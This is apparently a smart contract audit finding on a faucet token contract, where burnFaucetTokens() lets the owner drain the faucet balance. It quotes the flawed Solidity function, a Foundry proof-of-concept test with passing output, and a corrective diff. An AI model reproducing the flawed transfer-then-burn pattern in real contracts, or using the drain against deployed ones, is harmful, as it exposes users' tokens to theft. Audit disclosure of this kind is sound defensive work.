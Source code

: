 # Owner Can Claim Token Via `burnFaucetTokens()`

## Summary

The `burnFaucetTokens()` function allows the contract owner to claim all faucet tokens by transferring the entire balance to owner and burn only amount that can be less than faucet balance

## Description

### Normal Behavior

- The owner should not be able to claim faucet tokens

### Issue

The `burnFaucetTokens()` function first transfers the entire faucet token balance to the owner, then burns only the specified `amountToBurn` from the owner's balance. This means the owner receives `balanceOf(faucet) - amountToBurn` tokens.

Line: 132

```solidity
function burnFaucetTokens(uint256 amountToBurn) public onlyOwner {
    require(amountToBurn <= balanceOf(address(this)), "Faucet Token Balance: Insufficient");

    // transfer faucet balance to owner first before burning
    // ensures owner has a balance before _burn (owner only function) can be called successfully
    _transfer(address(this), msg.sender, balanceOf(address(this)));

    _burn(msg.sender, amountToBurn);
}
```

## Risk

### Impact

**High**

- Owner can bypass faucet limitations and claim all tokens.
- Faucet can be drained in a single transaction.
- Remaining ETH in the contract become locked.

### Likelihood

**High**

- Exploitable in one transaction by the owner.
- No external contract or special conditions required.

## Proof of Concept

### Textual PoC

1. Owner calls `burnFaucetTokens(0)`.
2. Faucet transfers all tokens to the owner.
3. Zero tokens are burned.
4. Owner receives the entire faucet balance.

### Coded PoC

```solidity
function testOwnerCanClaimTokenViaBurnFunction() public {
    uint256 faucetInitialBalance = raiseBoxFaucet.balanceOf(
        raiseBoxFaucetContractAddress
    );

    vm.prank(owner);
    raiseBoxFaucet.burnFaucetTokens(0);

    vm.assertEq(
        IERC20(raiseBoxFaucetContractAddress).balanceOf(owner),
        faucetInitialBalance
    );
    vm.assertEq(
        IERC20(raiseBoxFaucetContractAddress).balanceOf(
            raiseBoxFaucetContractAddress
        ),
        0
    );
}
```

**OwnerCanClaimTokenViaBurnFunction.t.sol**: https://github.com/Luu-Duc-Toan/2025-10-raisebox-faucet/blob/main/test/OwnerCanClaimTokenViaBurnFunction.t.sol

Results:

```bash
Ran 1 test for test/OwnerCanClaimTokenViaBurnFunction.t.sol:TestOwnerCanClaimTokenViaBurnFunction
[PASS] testOwnerCanClaimTokenViaBurnFunction() (gas: 52493)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.68ms (218.30µs CPU time)
```

## Recommended Mitigation

Replace the transfer-and-burn logic with a direct burn from the faucet's balance:

```diff
function burnFaucetTokens(uint256 amountToBurn) public onlyOwner {
    require(amountToBurn <= balanceOf(address(this)), "Faucet Token Balance: Insufficient");

-    // transfer faucet balance to owner first before burning
-    // ensures owner has a balance before _burn (owner only function) can be called successfully
-    _transfer(address(this), msg.sender, balanceOf(address(this)));
-    _burn(msg.sender, amountToBurn);
+    _burn(address(this), amountToBurn);
}
```
